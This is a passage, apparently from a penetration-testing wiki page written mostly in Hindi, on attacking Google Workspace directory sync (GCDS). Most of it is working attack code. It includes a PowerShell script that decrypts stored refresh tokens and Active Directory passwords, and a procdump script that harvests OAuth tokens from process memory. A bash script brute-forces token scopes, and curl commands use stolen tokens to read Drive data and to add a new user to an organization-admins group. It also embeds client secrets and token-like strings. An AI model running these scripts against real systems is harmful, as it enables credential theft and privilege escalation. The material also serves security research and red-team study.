https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

कुछ उदाहरण जो उन स्कोप्स में से कुछ का उपयोग करते हैं:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** Google Workspace के लिए एक ऐड-ऑन है जो आपके संगठन के डेटा के लिए डेटा संरक्षण, खोज और निर्यात के उपकरण प्रदान करता है जो Google Workspace सेवाओं जैसे Gmail, Drive, Chat, और अधिक में संग्रहीत है।

* Google Workspace Vault में एक **Matter** एक **container** है जो एक विशिष्ट मामले, जांच, या कानूनी मामले से संबंधित सभी जानकारी को व्यवस्थित और समूहित करता है। यह उस विशेष मुद्दे से संबंधित **Holds**, **Searches**, और **Exports** प्रबंधित करने के लिए केंद्रीय हब के रूप में कार्य करता है।
* Google Workspace Vault में एक **Hold** एक **preservation action** है जो विशिष्ट उपयोगकर्ताओं या समूहों पर लागू होता है ताकि उनके डेटा को Google Workspace सेवाओं के भीतर **हटाने या संशोधित करने** से **रोकने** के लिए। Holds यह सुनिश्चित करते हैं कि प्रासंगिक जानकारी कानूनी मामले या जांच की अवधि के लिए सुरक्षित और अपरिवर्तित बनी रहे।
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
More [API endpoints in the docs](https://developers.google.com/vault/reference/rest).

</details>

## GCDS - Google Cloud Directory Sync

यह एक उपकरण है जिसका उपयोग **आपके सक्रिय निर्देशिका उपयोगकर्ताओं और समूहों को आपके Workspace के साथ समन्वयित करने के लिए किया जा सकता है** (और इस लेखन के समय इसके विपरीत नहीं)।

यह दिलचस्प है क्योंकि यह एक उपकरण है जिसे **Workspace सुपरयूजर और विशेषाधिकार प्राप्त AD उपयोगकर्ता** के **क्रेडेंशियल्स** की आवश्यकता होगी। इसलिए, यह संभव है कि इसे एक डोमेन सर्वर के अंदर पाया जा सके जो समय-समय पर उपयोगकर्ताओं को समन्वयित कर रहा हो।

{% hint style="info" %}
To perform a **MitM** to the **`config-manager.exe`** binary just add the following line in the `config.manager.vmoptions` file: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GCDS**, get information about the configuration and **even the passwords and encrypted credentials**.
{% endhint %}

यह भी ध्यान दें कि GCDS AD से Workspace में पासवर्ड समन्वयित नहीं करेगा। यदि कुछ होगा तो यह Workspace में नए बनाए गए उपयोगकर्ताओं के लिए बस यादृच्छिक पासवर्ड उत्पन्न करेगा जैसा कि आप निम्नलिखित छवि में देख सकते हैं:

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokens & AD Credentials

बाइनरी `config-manager.exe` (मुख्य GCDS बाइनरी GUI के साथ) सक्रिय निर्देशिका क्रेडेंशियल्स, रिफ्रेश टोकन और एक्सेस को डिफ़ॉल्ट रूप से **xml फ़ाइल** में **`C:\Program Files\Google Cloud Directory Sync`** फ़ोल्डर में **`Untitled-1.xml`** नामक फ़ाइल में संग्रहीत करेगा। हालांकि, इसे उपयोगकर्ता के `Documents` में या **किसी अन्य फ़ोल्डर** में भी सहेजा जा सकता है।

इसके अलावा, रजिस्ट्री **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** के अंदर की कुंजी **`open.recent`** हाल ही में खोले गए सभी कॉन्फ़िगरेशन फ़ाइलों (xmls) के पथों को शामिल करती है। इसलिए इसे **खोजने के लिए जांचना संभव है**।

फ़ाइल के अंदर सबसे दिलचस्प जानकारी होगी:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
ध्यान दें कि उपयोगकर्ता का **refresh** **token** और **password** **AES CBC** का उपयोग करके एक यादृच्छिक रूप से उत्पन्न कुंजी और IV के साथ **encrypted** हैं, जो **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** में संग्रहीत हैं (जहां **`prefs`** Java पुस्तकालय प्राथमिकताएँ संग्रहीत करता है) स्ट्रिंग कुंजी **`/Encryption/Policy/V2.iv`** और **`/Encryption/Policy/V2.key`** में base64 में संग्रहीत हैं।

<details>

<summary>Powershell script to decrypt the refresh token and the password</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
ध्यान दें कि इस जानकारी की जांच करना संभव है **`DirSync.jar`** के जावा कोड को **`C:\Program Files\Google Cloud Directory Sync`** में `exportkeys` स्ट्रिंग को खोजकर (क्योंकि यह वह cli पैरामीटर है जिसे बाइनरी `upgrade-config.exe` कुंजी को डंप करने के लिए अपेक्षित करता है)।
{% endhint %}

पॉवरशेल स्क्रिप्ट का उपयोग करने के बजाय, बाइनरी **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** का उपयोग करना भी संभव है जिसमें पैरामीटर `-exportKeys` है और रजिस्ट्री से **Key** और **IV** को हेक्स में प्राप्त करें और फिर बस कुछ साइबरशेफ का उपयोग करें AES/CBC और उस कुंजी और IV के साथ जानकारी को डिक्रिप्ट करने के लिए।

### GCDS - मेमोरी से टोकन डंप करना

GCPW की तरह, `config-manager.exe` प्रक्रिया की मेमोरी को डंप करना संभव है (यह GCDS के मुख्य बाइनरी का नाम है जिसमें GUI है) और आप रिफ्रेश और एक्सेस टोकन पा सकेंगे (यदि वे पहले से उत्पन्न हो चुके हैं)।\
मुझे लगता है कि आप AD कॉन्फ़िगर की गई क्रेडेंशियल्स भी पा सकते हैं।

<details>

<summary>config-manager.exe प्रक्रियाओं को डंप करें और टोकन खोजें</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके, इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Scopes

{% hint style="info" %}
ध्यान दें कि रिफ्रेश टोकन होने के बावजूद, आप एक्सेस टोकन के लिए किसी भी स्कोप का अनुरोध नहीं कर सकते क्योंकि आप केवल **उन स्कोप का अनुरोध कर सकते हैं जो उस एप्लिकेशन द्वारा समर्थित हैं जहां आप एक्सेस टोकन उत्पन्न कर रहे हैं**।

इसके अलावा, रिफ्रेश टोकन हर एप्लिकेशन में मान्य नहीं है।
{% endhint %}

डिफ़ॉल्ट रूप से GCSD के पास उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### एक उपयोगकर्ता बनाएं और उसे `gcp-organization-admins` समूह में जोड़ें ताकि GCP में वृद्धि करने की कोशिश की जा सके
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'
```
{% hint style="danger" %}
नए उपयोगकर्ता को सुपर एडमिन भूमिका देना संभव नहीं है क्योंकि **रीफ्रेश टोकन में आवश्यक स्कोप नहीं हैं** जो आवश्यक विशेषाधिकार देने के लिए हैं।
{% endhint %}

## एडमिन डायरेक्टरी सिंक

GCDS के साथ उपयोगकर्ताओं को समन्वयित करने के इस तरीके में मुख्य अंतर यह है कि GCDS कुछ बाइनरी के साथ मैन्युअल रूप से किया जाता है जिन्हें आपको डाउनलोड और चलाना होता है जबकि **एडमिन डायरेक्टरी सिंक सर्वरलेस** है जिसे Google द्वारा [https://admin.google.com/ac/sync/externaldirectories](https://admin.google.com/ac/sync/externaldirectories) पर प्रबंधित किया जाता है।

इस लेखन के समय यह सेवा बीटा में है और यह 2 प्रकार की समन्वयन का समर्थन करती है: **एक्टिव डायरेक्टरी** से और **एज़्योर एंट्रा आईडी** से:

* **एक्टिव डायरेक्टरी:** इसे सेट करने के लिए आपको **Google को आपके एक्टिव डायरेक्टरी वातावरण तक पहुंच देना होगा**। और चूंकि Google को केवल GCP नेटवर्क (द्वारा **VPC कनेक्टर्स**) तक पहुंच है, आपको एक कनेक्टर बनाना होगा और फिर उस कनेक्टर से अपने AD को उपलब्ध कराना होगा, या तो GCP नेटवर्क में VMs में रखकर या Cloud VPN या Cloud Interconnect का उपयोग करके। फिर, आपको **डायरेक्टरी पर पढ़ने की पहुंच वाले खाते के क्रेडेंशियल्स** और **संपर्क करने के लिए एक प्रमाणपत्र** प्रदान करना होगा **LDAPS** के माध्यम से।
* **एज़्योर एंट्रा आईडी:** इसे कॉन्फ़िगर करने के लिए बस **एक उपयोगकर्ता के साथ एज़्योर में लॉगिन करना आवश्यक है जिसके पास एंट्रा आईडी सब्सक्रिप्शन पर पढ़ने की पहुंच है** जो Google द्वारा प्रदर्शित पॉप-अप में है, और Google एंट्रा आईडी पर पढ़ने की पहुंच के साथ टोकन रखेगा।

एक बार सही तरीके से कॉन्फ़िगर होने के बाद, दोनों विकल्प **Workspace में उपयोगकर्ताओं और समूहों को समन्वयित करने** की अनुमति देंगे, लेकिन यह Workspace से AD या EntraID में उपयोगकर्ताओं और समूहों को कॉन्फ़िगर करने की अनुमति नहीं देगा।

इस समन्वयन के दौरान अन्य विकल्प जो यह अनुमति देगा:

* नए उपयोगकर्ताओं को लॉगिन करने के लिए एक ईमेल भेजें
* उनके ईमेल पते को Workspace द्वारा उपयोग किए जाने वाले पते में स्वचालित रूप से बदलें। इसलिए यदि Workspace `@hacktricks.xyz` का उपयोग कर रहा है और EntraID उपयोगकर्ता `@carloshacktricks.onmicrosoft.com` का उपयोग करते हैं, तो `@hacktricks.xyz` उन उपयोगकर्ताओं के लिए उपयोग किया जाएगा जो खाते में बनाए गए हैं।
* **उपयोगकर्ताओं को समन्वयित करने वाले समूहों का चयन करें**।
* Workspace में समन्वयित करने और बनाने के लिए **समूहों** का चयन करें (या सभी समूहों को समन्वयित करने के लिए इंगित करें)।

### AD/EntraID -> Google Workspace (& GCP)

यदि आप AD या EntraID को समझौता करने में सफल होते हैं, तो आपके पास Google Workspace के साथ समन्वयित होने वाले उपयोगकर्ताओं और समूहों पर पूर्ण नियंत्रण होगा।\
हालांकि, ध्यान दें कि उपयोगकर्ता जो Workspace में उपयोग कर रहे हैं उनके **पासवर्ड** **एक ही हो सकते हैं या नहीं**।

#### उपयोगकर्ताओं पर हमला

जब समन्वयन होता है, तो यह **AD से सभी उपयोगकर्ताओं को या केवल किसी विशेष OU से उपयोगकर्ताओं को** या केवल **EntraID में विशिष्ट समूहों के सदस्यों को** समन्वयित कर सकता है। इसका मतलब है कि एक समन्वयित उपयोगकर्ता पर हमला करने के लिए (या एक नया बनाने के लिए जो समन्वयित होता है) आपको पहले यह पता लगाना होगा कि कौन से उपयोगकर्ता समन्वयित हो रहे हैं।

* उपयोगकर्ता **AD या EntraID से पासवर्ड को फिर से उपयोग कर सकते हैं या नहीं**, लेकिन इसका मतलब है कि आपको **लॉगिन करने के लिए उपयोगकर्ताओं के पासवर्ड को समझौता करना होगा**।
